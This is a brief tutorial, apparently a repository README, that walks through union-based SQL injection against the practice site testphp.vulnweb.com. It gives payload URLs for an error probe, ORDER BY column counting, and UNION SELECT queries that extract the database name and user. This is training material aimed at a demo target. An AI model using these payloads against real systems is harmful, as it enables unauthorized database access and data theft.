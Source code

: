 # sqlinjection-hackbar-cyberfox

Open the target page:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1</pre>

Test for SQL injection vulnerability by adding ' in the last:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1'</pre>

If you see an SQL error like:
<pre>You have an error in your SQL syntax</pre>
it means the parameter is likely vulnerable to SQL injection.

Exploit SQL Injection (UNION-Based)
<pre>http://testphp.vulnweb.com/listproducts.php?cat=1 ORDER BY 3--</pre>
If the page works fine, try increasing the number: ORDER BY 4--, ORDER BY 5--…
When you get an error, go back to the last number that worked. That’s your number of columns.

Once you know the number of columns, say 3, try:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=-1 UNION SELECT 1,2,3--</pre>
You’ll see values like 1, 2, 3 appear on the page — it confirms the injection.

You can now extract useful data like:
<pre>http://testphp.vulnweb.com/listproducts.php?cat=-1 UNION SELECT 1, database(), user()--</pre>


